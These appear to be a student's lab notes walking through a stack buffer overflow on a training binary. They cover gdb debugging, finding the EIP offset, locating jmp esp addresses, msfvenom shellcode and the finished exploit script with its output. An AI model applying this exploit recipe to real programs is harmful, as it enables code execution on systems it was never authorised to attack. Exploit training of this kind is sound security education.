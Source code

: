 ```yaml
---

## Exploit Development

-----

### Technical Help

    Utilzing tools such as:

      IDA, GHIDRA
      GDB, MONA, IMMUNITY
      BASH, PYTHON

---
```


### GDB USES

    Common Commands:

      disass <FUNCTION>   #   Disassemble portion of the program
      info <...>  #   Supply info for specific stack areas
      x/256c $<REGISTER>  #   Read characters from specific register
      break <address>  #   Establish a break point

------------------------------------------------------------------------------

### DEMO

    scp /home/daniel.gonzalez30/Desktop/func student@10.50.20.127:/home/student/Downloads

    strings func

    chmod u+x func

    ---

    gdb ./func

    run

    Enter a string: 123

      exited with code 056

    run sihfgoishf

      starting program /home/student/Downloads/fun adhgsbfjf
      Enter a string:

    ---

    run <<<$(echo"asdfghjkl")

    info functions

    pdisass main

    pdisass getuserinput

    ---

### - Python Script -

    #we're going to change the value and play with it
  
    1 #!/usr/bin/env python
    2 
    3 buffer = "A" * 30
    4 
    5 print(buffer)
    
----

    run <<<$(python linbuff.py)

    changed script value to 90 ( see results )

---

### Results
  
    [----------------------------------registers-----------------------------------]
    EAX: 0xffffd42e ('A' <repeats 90 times>)
    EBX: 0x41414141 ('AAAA')
    ECX: 0xf7fb65c0 --> 0xfbad2088 
    EDX: 0xf7fb789c --> 0x0 
    ESI: 0xf7fb6000 --> 0x1d4d8c 
    EDI: 0x0 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd470 ('A' <repeats 24 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd470 ('A' <repeats 24 times>)
    0004| 0xffffd474 ('A' <repeats 20 times>)
    0008| 0xffffd478 ('A' <repeats 16 times>)
    0012| 0xffffd47c ('A' <repeats 12 times>)
    0016| 0xffffd480 ("AAAAAAAA")
    0020| 0xffffd484 ("AAAA")
    0024| 0xffffd488 --> 0x0 
    0028| 0xffffd48c --> 0xf7df9fa1 (<__libc_start_main+241>:	add    esp,0x10)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()

----

#### Figure out how big buffer is

    wiremask.eu

    Tools

    Buffer Overflow Pattern Generator

    Copy value into script

    ----
#### Modify Script

    5 buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

    ----

    Copy Offset Value into mask.eu ( 0x31634130 )
    We get 62

    ---

#### Modify Script

    1 #!/usr/bin/env python
    2 
    3 buffer = "A" * 62
    4 
    5 eip = "BBBB"
    6 
    7 print(buffer+eip)

 ---

#### Next Steps

    quit gdb (Ctrl + D)
  
    env - gdb ./func

    show env

    unset env COLUMNS

    unset env LINES

    run (Enter a long string: ddddddddddddddddddddddd)
    
        Program received signal SIGSEGV, Segmentation fault.
        0x64646464 in ?? ()

    ---

    info proc map (make note of starting address after heap and the last end address of the stack)

#### Make note in Script

    #stack is in between 0xf7de1000 and 0xffffe000

    ------
    
    find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4

#### grab 4 addresses and paste into script (convert them into little endian)

    5 #0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
    6 #0xf7f588ab -> 0xf7 f5 88 ab -> \xab\x88\xf5\xf7"
    7 #0xf7f645fb -> 0xf7 f6 45 fb -> \xfb\x45\xf6\xf7"
    8 #0xf7f6460f -> 0xf7 f6 46 0f -> \x0f\x46\f6\xf7"

    ----

### Grab first address and copy into eip in your script
      
    eip = "\x59\x3b\xde\xf7"

    ----

#### Open New tab

    msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python


#### Copy codes and paste into script and modify

     13 eip = "\x59\x3b\xde\xf7"
     14 
     15 nop = "\x90" * 15
     16 
     17 buf =  b""
     18 buf += b"\xdb\xd3\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x0a\xb8"
     19 buf += b"\x3f\xf6\xc9\x25\x31\x45\x19\x03\x45\x19\x83\xed"
     20 buf += b"\xfc\xdd\x03\xa3\x2e\x79\x75\x66\x57\x11\xa8\xe4"
     21 buf += b"\x1e\x06\xda\xc5\x53\xa0\x1b\x72\xbb\x52\x75\xec"
     22 buf += b"\x4a\x71\xd7\x18\x4f\x75\xd8\xd8\x39\x11\xd8\x8f"
     23 buf += b"\xea\x50\x39\xe2\x8d"
     24 
     25 print(buffer+eip+nop+buf)

#### Find payloads 

    msfvenom --list payloads

#### Quit gdb window

    ./fun <<<$(python linbuff.py)

      Enter a string:
      student

     













    
